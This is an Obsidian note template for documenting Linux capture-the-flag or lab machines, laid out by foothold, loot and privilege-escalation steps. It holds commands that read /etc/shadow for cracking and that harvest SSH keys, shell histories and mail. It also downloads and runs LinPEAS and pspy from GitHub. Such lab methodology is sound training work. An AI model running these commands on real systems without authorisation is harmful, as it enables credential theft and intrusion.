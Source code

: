 #show #linux
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

First flag: ☑️
Second flag: ✅
# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `cat /home/$(id -un)/local.txt`
	

Upgrade [[1_shells#Upgrades]]
	
##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
echo -e "\n## KEYS: ##"; ls /home/*/.gpg/; ls /home/*/.ssh/; echo -e "\n## HISTORY: ##"; cat /home/*/.*_history; echo -e "\n## GIT: ##"; find / -name ".git" 2>/dev/null | cd | git config --list 2>/dev/null; echo -e "\n## MAIL: ##"; ls -alh /var/mail/
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
# PrivEsc
Find Working Dir for attack
```bash
find / -writable -type d -print -quit 2>/dev/null
```
	

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh &> linpeas.txt & less -r +F linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`
```bash
grep "CRON" /var/log/syslog; dpkg -l
```
Get commands run by non-accessible cronjobs and other tasks
```bash
wget -q https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 && chmod +x pspy32 && timeout 30s ./pspy32 | tr -s ' ' | cut -d ' ' -f 3-4,7- | sed -e 's/$/\x1b[m/' | perl -ne 'BEGIN{$|=1}; print unless ${$_}++'
```

##### Finding 1
